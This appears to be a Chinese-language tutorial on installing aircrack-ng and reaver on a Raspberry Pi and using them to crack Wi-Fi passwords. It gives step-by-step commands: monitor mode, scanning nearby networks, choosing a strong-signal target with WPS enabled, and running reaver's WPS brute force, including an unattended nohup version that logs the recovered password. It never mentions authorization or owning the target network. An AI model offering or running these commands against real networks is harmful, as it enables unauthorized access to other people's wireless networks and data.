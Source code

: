 # 树莓派（raspberrypi）安装aircrack-ng,reaver及wifi破解教程

这篇文章主要应百度贴吧水友的要求，特写了一个小教程。让pi变得更有意思。
这个无线破解和PC上的原理是一样的，只不过平台换到了PI上。PI主要就是省电，放在那里跑一个月也没事。

回到正题：

### 硬件环境

 - 树莓派B+一个（我用的是debian环境）
 - PC一台（或其它设备直接操作PI就行）
 - 无线网卡（能用就行，不过强大的无线网卡会事半功倍，我用的3070）


### 安装依赖包
```
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
sudo apt-get install libnl-3-200 libnl-3-dev libnl-3-doc libnl-genl-3-dev libnl-genl-3-200
```

### 安装aircarck-ng
```
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make
sudo make install
```

### 安装reaver
```
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

如果安装成功后，会有`airmon-ng,airodump-ng,reaver`等命令可用。

### 破解教程
```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
```
![](./images/1.png)

```
sudo airodump-ng mon0
```
![](./images/2.png)

根据上面的airodump搜索到的无线信号，然后可以挑信号强的进行破解（注意，要选择开了WPS功能的）
```
sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 
```
![](./images/2-2.png)

如果想挂机破解，记得加上`nohup`命令后，可以断开ssh。然后剩下就是等待。
```
nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
```
如果破解成功后，打开输出的日志，就可以看到reaver出来的密码。

![](./images/3.png)
